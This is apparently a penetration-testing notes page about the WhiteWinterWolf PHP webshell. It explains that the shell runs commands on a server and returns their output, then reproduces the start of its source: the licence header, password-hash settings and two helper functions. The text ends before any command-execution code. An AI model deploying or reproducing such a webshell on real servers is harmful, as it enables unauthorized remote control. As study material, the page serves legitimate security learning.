

repository: amandaguglieri/hackinglife · page: whitewinterwolf-webshell/index.html · generator: mkdocs

---
title: WhiteWinterWolf php webshell 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - webshell
  - php
---


# WhiteWinterWolf php webshell

Source: [https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php).

It is similar to the [Antak Webshell in aspx from the nishang project](nishang.md) but with php. It generates a page on the server from which we can indicate the ip and port where we want to receive the output of the commands we introduce,

```php
<?php
/*******************************************************************************
 * Copyright 2017 WhiteWinterWolf
 * https://www.whitewinterwolf.com/tags/php-webshell/
 *
 * This file is part of wwolf-php-webshell.
 *
 * wwwolf-php-webshell is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * This program is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with this program.  If not, see <http://www.gnu.org/licenses/>.
 ******************************************************************************/

/*
 * Optional password settings.
 * Use the 'passhash.sh' script to generate the hash.
 * NOTE: the prompt value is tied to the hash!
 */
$passprompt = "WhiteWinterWolf's PHP webshell: ";
$passhash = "";

function e($s) { echo htmlspecialchars($s, ENT_QUOTES); }

function h($s)
{
	global $passprompt;
	if (function_exists('hash_hmac'))
	{
		return hash_hmac('sha256', $s, $passprompt);
	}
	else
	{
		return bin2hex(mhash(MHASH_SHA256, $s, $passprompt));
	}
}
